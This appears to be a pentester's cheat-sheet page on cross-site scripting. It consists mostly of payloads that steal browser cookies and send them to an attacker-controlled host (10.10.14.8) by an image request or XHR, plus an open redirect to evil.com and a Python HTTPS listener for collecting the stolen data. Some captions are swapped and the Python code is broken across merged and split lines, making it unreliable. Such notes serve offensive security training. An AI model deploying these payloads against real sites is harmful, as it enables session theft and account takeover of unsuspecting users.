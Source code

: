 # Exploitation


### Cookie Stealing

##### Basic/Classic

```
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>
```

##### Bypassing secure flag protection

We can also use [Certbot](Certbot.md)

Creating a HTTP server

```
openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

Generating certificate

```
#!/usr/bin/python3
import http.server, sslserver_address = ('0.0.0.0', 443)
httpd = http.server.HTTPServer(server_address,
http.server.SimpleHTTPRequestHandler)
httpd.socket =
ssl.wrap_socket(httpd.socket,server_side=True,certfile='local
host.pem')
"""ssl_version=ssl.PROTOCOL_TLSv1_2)
"""
httpd.serve_forever()
```

##### Via XHR

```
var xhr=new XMLHttpRequest();
xhr.open("GET", "https://10.10.14.8/?"+document.cookie,
true);
xhr.send();
```

### Open Redirect

```
<script>window.location.replace("http://evil.com");</script>
```


